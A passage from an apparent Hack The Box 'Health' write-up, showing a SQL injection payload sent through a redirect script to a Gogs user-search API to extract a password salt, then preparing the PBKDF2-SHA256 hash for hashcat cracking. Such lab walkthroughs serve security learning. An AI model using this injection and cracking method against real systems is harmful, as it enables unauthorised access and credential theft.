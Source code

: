 ![](_posts/assets/img/health-htb/health-password-in-hex.png)

Let's grab the salt:

```shell
sudo python3 redirect.py 80 "http://10.10.11.176:3000/api/v1/users/search?q=e')/**/union/**/all/**/select/**/null,null,(select/**/salt/**/from/**/user),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,1--"
```

![](salt.png)

I have no idea what algorithm is used to hash the password. The good news is that this is an open source application so we can dig through the code if no one else has.
Lucky for us again someone else dug through the application to find where the password is hashed.
https://blog.stigok.com/2017/03/06/lost-password-to-gogs-git-server-docker-instance.html
This blog post points out that the password is hashed as follows:
```go
newPasswd := pbkdf2.Key([]byte(u.Passwd), []byte(u.Salt), 10000, 50, sha256.New)
```
Since I have no idea what this even means, I had to dig into the module and function.
https://pkg.go.dev/golang.org/x/crypto/pbkdf2#pkg-functions
The key function is defined as below:
```go
func Key(password, salt []byte, iter, keyLen int, h func() hash.Hash) []byte
```
So the function takes a password, byte array for salt, the iterations the algorithm will go through, they length of the output key in bytes, and the PRN (pseudo random number) function. 

So this means that Gogs uses PBKDF2 with SHA256 PRN with 10000 iterations and a length of 50 bytes. At least, that is how I understand it. 
Since the output of the function is a byte array, the hash is probably stored in hex. 

https://hashcat.net/wiki/doku.php?id=example_hashes
Digging around to figure out how to crack this I came around to the hashcat algorithm PBKDF2-HMAC-SHA256  (10900)
with the example hash: `sha256:1000:MTc3MTA0MTQwMjQxNzY=:PYjCU215Mi57AYPKva9j7mvF4Rc5bCnt`
So it looks like the salt is in base64 and the password may be as well because that is definitely not hex.

The question is how do we get hex back to bytes then into base64?
This where I get to play with a tool I do not use much at all `xxd`.
Using `xxd -r`  we can convert the hex into binary then we need to output it back out int a hex that we convert to base64

```shell
echo '1c84...b55655d' | xxd -r -ps | base64
HIT2z...V0= > pass
```

base64 the salt
```shell
echo $salt | base64 > salt
```
